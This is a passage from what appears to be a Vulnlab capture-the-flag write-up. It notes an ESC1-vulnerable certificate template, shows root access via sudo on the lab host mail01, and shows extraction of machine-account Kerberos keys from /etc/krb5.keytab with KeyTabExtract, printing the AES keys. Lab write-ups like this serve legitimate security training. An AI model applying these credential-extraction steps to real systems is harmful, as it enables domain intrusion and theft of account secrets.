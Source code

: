 Looks like `HybridComputers` template is vulnerable to `ESC1`, where `Domain Computers` can enroll. We saw that `mail01` is domain joined host and it's also a member of `Domain Computers` group

![](/assets/posts/labs/vulnlab/chains/hybrid/6.png)

We know that `peter.turner` is `root` on `mail01`
```
peter.turner@hybrid.vl@mail01:~$ sudo -l
[sudo] password for peter.turner@hybrid.vl: 
Matching Defaults entries for peter.turner@hybrid.vl on mail01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User peter.turner@hybrid.vl may run the following commands on mail01:
    (ALL) ALL
peter.turner@hybrid.vl@mail01:~$ sudo su
root@mail01:/home/peter.turner@hybrid.vl# 
```

We can now [extract the secrets from a keytab file](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-linux/#extract-accounts-from-etckrb5keytab) on `mail01`
```
root@mail01:/home/peter.turner@hybrid.vl# ls -lha /etc/krb5.keytab 
-rw------- 1 root root 650 Jun 17  2023 /etc/krb5.keytab
```

To extach the secrets use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract)
```
└─$ ~/tools/red-team/KeyTabExtract/keytabextract.py krb5.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : HYBRID.VL
        SERVICE PRINCIPAL : MAIL01$/
        NTLM HASH : <REDACTED>
        AES-256 HASH : eac6b4f4639b96af4f6fc2368570cde71e9841f2b3e3402350d3b6272e436d6e
        AES-128 HASH : 3a732454c95bcef529167b6bea476458

```
